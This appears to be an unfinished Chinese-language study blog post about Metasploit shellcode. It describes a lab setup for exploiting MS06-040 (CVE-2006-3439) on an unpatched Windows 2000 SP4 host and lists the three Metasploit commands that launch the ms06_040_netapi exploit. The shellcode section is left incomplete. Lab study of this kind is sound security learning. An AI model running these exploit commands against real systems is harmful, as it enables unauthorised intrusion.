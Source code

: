 ```yaml
---
title: 漏洞学习笔记-005-Metasploit制作ShellCode
author: Misaka
date: 2020-10-20 22:20:00 +0800
categories: [Exploit]
tags: [Windows, Exploit]
math: true
---
```


Metasploit制作ShellCode

本文来源：[Moeomu的博客](/posts/漏洞学习笔记-005-Metasploit制作ShellCode/)

...未完待续(Metasploit旧版本真难找)...

## 入侵Windows实验

### 实验介绍

> MS06-040，CVE-2006-3439

|  | 推荐的环境 | 备注 |
|-|-|-|
| 攻击机系统 | Kali Linux 2021.1 | |
| 目标主机系统 | Windows 2000 SP4 | |
| 补丁版本 | KB921883 | 确保目标主机未安装补丁 |
| 网络环境 | 可互相ping通 | 确保无防火墙干扰 |

### 命令行界面漏洞测试

- `use exploit/windows/smb/ms06_040_netapi`
- `set rhosts 10.211.55.5`
- `exploit`

## 使用MetaSploit制作ShellCode

...未完待续...